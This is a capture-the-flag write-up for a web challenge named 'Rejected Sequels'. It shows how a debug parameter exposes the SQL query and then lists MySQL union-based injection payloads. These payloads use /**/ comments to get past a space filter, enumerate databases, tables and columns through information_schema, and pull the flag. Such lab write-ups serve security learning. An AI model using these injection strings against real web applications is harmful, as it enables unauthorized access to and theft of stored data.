


# Rejected Sequels

## Problem

```
Look at all these movie sequels that never got released! Will yours make it through??

Connect here:
http://jh2i.com:50008
```

## Solution

***Note**: solved after competition end*

Accessing the link, we get this page that provides a form for searching movie names:



As usual, first we go to the page source to see if we can get any useful information. Indeed, it contains an 
interesting comment: `<!-- if ( isset($_GET["debug"])){ echo($sql_query); } -->`. In our GET requests, we need to set
the `debug` parameter in order to see the injection output get echo'd.

We try basic SQL injection (`" OR '1'='1`), however it only returns an error message from mySQL. Next we try inserting a mySQL print statement
`"union(select "hello world" as '')#`. It does show up at the bottom of all the entries, but without the space character.



Eventually we find that inline comment character `/**/` can be used to [substitute for spaces](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#InlineComments)
in the injection. Now we can try different SQL Injection attacks (mostly union-based).

Payload | Information
------- | ------------------
`"order/**/by/**/2#` or `union/**/select(1)#` | [error message confirms only single column is queried](images/sequeltable1.PNG)
`"union/**/select/**/schema_name/**/from/**/information_schema.schemata#` | [leak all databases in the webapp](images/sequeltable2.PNG)
`"union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema="rejected_sequel"#` | [returns two tables: **flag, movies**](images/sequeltable3.PNG)
`"union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name="flag"#` | [flag table contains one column: **flag**](images/sequeltable4.PNG)
`"/**/union/**/select/**/flag/**/from/**/flag#` | [return values of column **flag** from table **flag**](images/sequeltable5.PNG)

Flag payload: `"/**/union/**/all/**/select/**/*/**/from/**/flag#` 

**Flag**: `flag{at_least_this_sequel_got_published}`


